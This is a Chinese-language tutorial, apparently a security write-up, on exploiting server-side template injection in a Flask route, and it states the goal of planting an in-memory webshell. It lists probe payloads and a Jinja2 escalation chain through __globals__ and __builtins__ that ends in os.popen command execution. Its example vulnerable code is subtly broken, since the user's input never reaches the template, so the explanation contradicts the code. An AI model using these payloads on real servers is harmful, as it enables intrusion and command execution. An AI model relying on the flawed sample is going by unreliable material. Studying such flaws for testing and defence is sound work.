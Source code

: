 ### 2. 服务器端模板注入(SSTI)

`/test`路由存在模板注入漏洞：

```python
@app.route('/test')
def test():
    template = '''
        <h1>Test Page</h1>
        <p>{{ name }}</p>
    '''
    name = request.args.get('name', 'Guest')
    return render_template_string(template)
```

## 模板注入详解与利用

Flask使用Jinja2作为模板引擎，当用户输入被直接传入`render_template_string`函数时，会产生服务器端模板注入漏洞。本节详细介绍如何测试和利用这个漏洞植入内存马。

### 模板注入基础测试

首先，我们可以通过一些简单的表达式测试是否存在模板注入漏洞：

```
http://127.0.0.1:5000/test?name={{7*7}}
```

如果页面显示`49`而不是原始文本`{{7*7}}`，则确认存在模板注入。

其他测试payload:
```
http://127.0.0.1:5000/test?name={{config}}  # 显示应用配置
http://127.0.0.1:5000/test?name={{request}} # 显示请求对象
http://127.0.0.1:5000/test?name={{self}}    # 在某些情况下显示模板对象
```

### 获取Python代码执行能力

Jinja2模板可以访问Python对象，我们通过以下方式获取Python代码执行权限：

1. **利用`__class__`和`__mro__`获取对象层次结构**

```
http://127.0.0.1:5000/test?name={{''.__class__.__mro__}}
```

2. **访问`__builtins__`获取Python内置函数**

```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__['__builtins__']}}
```

3. **使用`__import__`导入模块执行命令**

```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()}}
```
